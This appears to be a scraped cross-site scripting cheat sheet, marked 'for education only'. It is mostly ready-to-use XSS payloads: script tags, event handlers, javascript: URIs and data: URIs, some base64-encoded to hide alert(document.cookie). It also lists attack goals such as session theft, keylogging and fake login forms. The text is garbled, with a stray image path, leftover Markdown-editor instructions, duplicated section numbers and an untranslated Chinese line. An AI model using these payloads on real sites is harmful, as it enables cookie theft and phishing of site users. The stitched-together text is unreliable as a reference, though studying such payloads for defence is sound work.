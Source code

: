 # For education propose only.
client-side scripts For education propose only.
### client-side scripts Cheat Sheet
For education propose only.

---

To use it, simply:

* Type Markdown text in the left pane
* See the HTML in the right

XSS 101

<h1>Hello,<script>alert(1)</script>!</h1>

1. With <script> tag
<script>alert(1)</script>

2. With regular HTML tags

2.1 Event-based

<TAG EVENT=alert(1)>
<body onload=alert(1)>
<img src=1 onerror=alert(1)>
<svg onload=alert(1)>
<x onmouseover=alert(1)>

2.2 Resource-based

<TAG RESOURCE=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<object data=javascript:alert(1)>
<script>alert(document.domain)</script>

2.1. Steal an user session on the vulnerable website (including admins)

2.2. Capture the keys pressed by the user

2.3. Deface the page, serving any type of content

2.4. Trick the user into giving his/her credentials by means of a fake HTML form

2.5. Crash the browser (local denial of service)

2.6. Force download of files

2.7. Redirect user's browser to another website where his/her machine can be

compromised by memory exploits

data伪协议的格式是：
data:[<MIME-type>][;charset=<encoding>][;base64],<data>

<script src="data:text/html;base64,YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="></script>
<script src=data:text/html;base64,YWxlcnQoZG9jdW1lbnQuY29va2llKQ==></script>
<script src=data:text/html;,alert(document.cookie)></script>
<script src=data:text/html,alert(document.cookie)></script>
<script src=data:,alert(document.cookie)></script>
<script src="data:text/html;base64,YWxlcnQoMSk="></script>
<script src=data:text/html;base64,YWxlcnQoMSk=></script>
<script src=data:text/html;,alert(1)></script>
<script src=data:text/html,alert(1)></script>
<script src=data:,alert(1)></script>

